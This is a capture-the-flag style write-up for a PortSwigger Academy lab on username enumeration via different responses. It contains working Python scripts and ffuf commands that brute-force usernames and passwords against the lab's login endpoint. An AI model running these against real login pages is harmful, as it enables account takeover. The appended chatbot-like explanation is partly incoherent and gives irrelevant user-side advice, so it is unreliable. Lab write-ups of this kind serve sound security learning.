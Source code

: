 # Username enumeration with different responses

## Enumerating username with different responses using Python

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForceUsername:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""

    def brute_force_username(self):
        print("🔮 Determining username")
        usernames = []
        with open("auth/auth-lab-usernames") as f:
            usernames = f.readlines()
        for username in usernames:
            print(f"Trying username: {username.strip()}❓")
            # send request with form data: username, password
            self.username = username.strip()
            self.password = "a"
            self.url = self.args[1]
            self.cookies = {}
            response = self.req.post(self.url, data={"username": self.username, "password": "a"}, proxies=self.proxies, verify=False)
            if response.status_code == 200:
                if response.text and not "Invalid username" in response.text:
                    print(f"⚖️ Found username: {self.username}")
                    with open("auth-lab-username-result", "w") as f:
                        f.write(self.username)
                    break
        exit(0)

AuthBruteForceUsername().brute_force_username()
```

<a href="https://asciinema.org/a/yiX9W07alkyQxyHyuwNxSt8sO" target="_blank"><img src="https://asciinema.org/a/yiX9W07alkyQxyHyuwNxSt8sO.svg" /></a>

## Brute forcing password with different responses using Python

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForcePassword:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""
        with open("auth-lab-username-result") as f:
            self.username = f.read().strip()

    def brute_force_password(self):
        print("🔮 Determining passwword for username", self.username)
        passwords = []
        with open("auth/auth-lab-passwords") as f:
            passwords = f.readlines()
        for password in passwords:
            print(f"Trying password: {password.strip()}❓")
            # send request with form data: username, password
            self.password = password.strip()
            self.url = self.args[1]
            self.cookies = {}
            response = self.req.post(self.url, data={"username": self.username, "password": self.password}, proxies=self.proxies, verify=False)
            if response.status_code == 200:
                if response.text and not "Incorrect password" in response.text:
                    print(f"⚖️ Found password: {self.password}")
                    with open("auth-lab-password-result", "w") as f:
                        f.write(self.password)
                    break
        exit(0)

AuthBruteForcePassword().brute_force_password()
```

<a href="https://asciinema.org/a/MVcIRcglrOa8hLB1iMDscHPhX" target="_blank"><img src="https://asciinema.org/a/MVcIRcglrOa8hLB1iMDscHPhX.svg" /></a>

## Enumerating username with different responses using ffuf

Find the username with different responses that the server returns. Use provided
wordlist for usernames and use `-fr` to filter out the response that contains
`Invalid username`. We use `-c` to colorize the output and `-v` to show verbose
output. We use `-r` to follow redirects and `-d` to send form data. We use `-X`
to send POST request and `-replay-proxy` to replay the request through _mitmproxy_ proxy. `FUZZ` is the placeholder for the username, this is used to
replace every username with a line from wordlist.

```bash
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0a4f00850310138a82660604008d00ed.web-security-academy.net/login -w auth/auth-lab-usernames -c -v -r -d "username=FUZZ&password=example" -fr "\bInvalid username\b"
```

## Brute forcing password with different responses using ffuf

We replace the username with the one we found in the previous command. We use
`-mc` to match the response code `302` which is the response code for redirect.
We also remove `-r` because we don't want to follow redirects.

```bash
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0a4f00850310138a82660604008d00ed.web-security-academy.net/login -w auth/auth-lab-passwords -c -v -d "username=_USERNAME_FROM_PREVIOUS_COMMAND_&password=FUZZ" -mc 302
```

<a href="https://asciinema.org/a/rCXzMWroIPIFW7PzEuaT0GwcD" target="_blank"><img src="https://asciinema.org/a/rCXzMWroIPIFW7PzEuaT0GwcD.svg" /></a>

> Watch out how you copy using tmux with mouse support, nevertheless we solved another lab!

Sure. The Username enumeration via different responses tutorial example in PortSwigger Academy demonstrates how a website can be vulnerable to username enumeration attacks by using different responses.

In the tutorial, the user is first prompted to enter their username and password. After they have successfully entered their credentials, they are logged in to the website.

The website has different responses for valid and invalid usernames. Specifically, the website returns a different HTML page for invalid usernames.

This means that an attacker can use this difference to enumerate valid usernames. Specifically, the attacker can submit a list of usernames to the website and see if the response is a HTML page or an error message. If the response is an HTML page, the attacker can infer that the username is invalid.

To exploit this vulnerability, the attacker would first need to obtain a list of possible usernames for the website. This could be done through a variety of methods, such as social engineering or dictionary attacks.

Once the attacker has a list of possible usernames, they would need to submit the list to the website and see if the response is a HTML page or an error message. If the response is an HTML page, the attacker can infer that the username is invalid. The attacker can then continue to submit usernames until they find one that is a valid username, which will result in a login page.

The Username enumeration via different responses tutorial example is a good demonstration of how a website can be vulnerable to username enumeration attacks by using different responses. It is important to be aware of these vulnerabilities and to take steps to protect yourself.

Here are some tips for protecting yourself from username enumeration attacks:

* Use a strong username for your online accounts.
* Change your usernames regularly.
* Be suspicious of emails or text messages that ask for your personal information.
* Install antivirus software and keep it up to date.
* Be careful about what websites you visit and what links you click on.
* Train yourself and your employees on how to identify and avoid phishing attacks.

By following these tips, you can help to protect yourself from username enumeration attacks and keep your accounts safe.

In addition to the tips above, there are a few things that the website can do to protect itself from username enumeration attacks:

* Use a rate limiting mechanism to prevent users from submitting too many requests in a short period of time.
* Use a honeypot account to lure attackers into entering invalid usernames.
* Implement a CAPTCHA challenge to verify that the user is human.
* Use a random response page mechanism to prevent attackers from identifying valid usernames from response pages.

By implementing these measures, the website can help to protect itself from username enumeration attacks.